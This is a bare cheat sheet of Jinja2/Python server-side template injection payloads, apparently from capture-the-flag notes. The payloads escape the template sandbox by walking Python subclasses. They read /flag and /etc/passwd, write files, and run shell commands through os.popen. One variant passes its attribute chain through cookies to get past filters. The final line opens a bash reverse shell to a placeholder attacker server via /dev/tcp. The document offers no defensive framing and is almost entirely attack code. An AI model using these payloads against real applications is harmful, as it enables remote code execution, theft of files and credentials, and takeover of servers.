 ```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__==&#39;catch_warnings&#39; %}{{ c.__init__.__globals__[&#39;__builtins__&#39;].open(&#39;filename&#39;, &#39;r&#39;).read() }}{% endif %}{% endfor %}

```

```
# request.cookie
{{self.__dict__._TemplateReference__context.lipsum.__globals__.__builtins__.open(&#34;/flag&#34;).read()}}

{{self[request.cookies.di][request.cookies.temp][request.cookies.lip][request.cookies.glo][request.cookies.bui].open(request.cookies.cmd).read()}}
 
cookie:di=__dict__;temp=_TemplateReference__context;lip=lipsum;glo=__globals__;bui=__builtins__;cmd=flag
```

```
&#39;&#39;.__class__.__mro__[2].__subclasses__()[40](&#39;/etc/passwd&#39;).read()

()..__class__.__bases__[0].__subclasses__()[40](&#39;/etc/passwd&#39;).read()
object.__subclasses__()[40](&#39;/etc/passwd&#39;).read()

&#39;&#39;.__class__.__mro__[2].__subclasses__()[40](&#39;/tmp/evil.txt&#39;, &#39;w&#39;).write(&#39;evil code&#39;)
().__class__.__bases__[0].__subclasses__()[40](&#39;/tmp/evil.txt&#39;, &#39;w&#39;).write(&#39;evil code&#39;)
object.__subclasses__()[40](&#39;/tmp/evil.txt&#39;, &#39;w&#39;).write(&#39;evil code&#39;)

&#39;&#39;.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[&#39;os&#39;].system(&#39;ls&#39;)
&#39;&#39;.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[&#39;os&#39;].popen(&#39;ls&#39;).read()

# eval
&#39;&#39;.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](&#34;__import__(&#39;os&#39;).popen(&#39;id&#39;).read()&#34;)
&#39;&#39;.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.eval(&#34;__import__(&#39;os&#39;).popen(&#39;id&#39;).read()&#34;)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;ls  /var/www/html&#34;).read()&#39; )
object.__subclasses__()[59].__init__.func_globals.values()[13][&#39;eval&#39;](&#39;__import__(&#34;os&#34;).popen(&#34;ls  /var/www/html&#34;).read()&#39; )

#__import__
&#39;&#39;.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__(&#39;os&#39;).popen(&#39;id&#39;).read()
&#39;&#39;.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__[&#39;__builtins__&#39;][&#39;__import__&#39;](&#39;os&#39;).popen(&#39;id&#39;).read()

&#39;&#39;.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[&#39;os&#39;].popen(&#39;bash -i &gt;&amp; /dev/tcp/你的服务器地址/端口 0&gt;&amp;1&#39;).read()
```
